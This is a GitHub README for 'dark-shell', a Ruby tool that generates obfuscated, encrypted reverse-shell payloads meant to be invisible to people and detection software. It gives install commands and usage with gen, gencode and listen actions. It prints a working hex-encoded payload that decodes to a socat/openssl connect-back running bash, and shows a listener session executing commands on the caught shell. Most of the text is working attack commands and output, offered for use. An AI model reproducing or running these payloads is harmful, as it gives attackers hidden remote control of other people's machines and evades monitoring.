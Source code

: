 # dark-shell
Some shells which are invisible to humans or programs.

[中文文档](https://green-m.me/2019/11/06/encrypt-reverse-shell/)

# Install

Just download the dark_shell.rb, and install some dependency.

```
gem install rex rex-socket base32
```

# Usage

Run script without parameter to get help info.

```
$ ruby dark_shell.rb


____             _         ____  _          _ _
|  _ \  __ _ _ __| | __    / ___|| |__   ___| | |
| | | |/ _` | '__| |/ /    \___ \| '_ \ / _ \ | |
| |_| | (_| | |  |   <      ___) | | | |  __/ | |
|____/ \__,_|_|  |_|\_\    |____/|_| |_|\___|_|_|


See more: https://github.com/Green-m/dark-shell

Dark shell listen server.

Usage:
  ruby dark_shell.rb <action> <ipaddress> <port> <type>
Action: gen, listen, gencode
  gen:      generate payload to run.
  gencode:  generate payload(encoded) to run.
  listen:   listen as a server.

Type: hex, ssl, base64, base32


Example:
  ruby dark_shell.rb listen 127.0.0.1 4444 hex
  ruby dark_shell.rb listen 0.0.0.0 4444
  ruby dark_shell.rb listen
  ruby dark_shell.rb gencode 8.8.8.8 1337 ssl
  ruby dark_shell.rb gen 8.8.8.8 4444 base64
  ruby dark_shell.rb gen
```


Get some connect back payloads.

```
ruby dark_shell.rb gencode 127.0.0.1 1337 ssl
```

And the we get a lot of payloads, pick one, for instance:

```
sh -c '{echo,736f63617420657865633a276261736827206f70656e73736c2d636f6e6e6563743a3132372e302e302e313a313333372c7665726966793d30}|{xxd,-p,-r}|{bash,-i}'
```

Start listening

```
$ ruby dark_shell.rb listen 127.0.0.1 1337 ssl


____             _         ____  _          _ _
|  _ \  __ _ _ __| | __    / ___|| |__   ___| | |
| | | |/ _` | '__| |/ /    \___ \| '_ \ / _ \ | |
| |_| | (_| | |  |   <      ___) | | | |  __/ | |
|____/ \__,_|_|  |_|\_\    |____/|_| |_|\___|_|_|


See more: https://github.com/Green-m/dark-shell

Type: 'SSL'
Starting listen 127.0.0.1:1337
Received from 127.0.0.1:57323
Input is ready.
pwd
>/private/tmp
whoami
>green


```

